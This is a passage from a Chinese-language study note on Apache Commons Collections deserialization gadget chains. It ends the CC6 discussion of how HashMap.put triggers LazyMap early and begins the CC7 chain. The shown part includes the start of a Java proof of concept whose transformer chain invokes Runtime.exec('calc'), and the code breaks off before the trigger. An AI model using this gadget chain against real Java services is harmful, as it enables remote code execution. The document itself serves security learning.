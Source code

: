 这是应该是因为在调用hashSet#add时调用了hashMap的put方法,

![image-20210716184250749](CC链学习-中/image-20210716184250749.png)

HashMap的put⽅法中，也有调⽤到 hash(key)

这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，因为我前⾯⽤了fakeTransformers ,所以此

时并没有触发命令执⾏,但实际上也对我们构造Payload产⽣了影响。

解决⽅法也很简单，只需要将keykey这个Key,再从outerMap中移除即可： lazyMap.remove("keykey") 

# CC7

## 测试环境

- jdk 1.8
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.AbstractMapDecorator;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC71 {

    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {

        Transformer[] fakeTransformerransformer = new Transformer[]{};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
```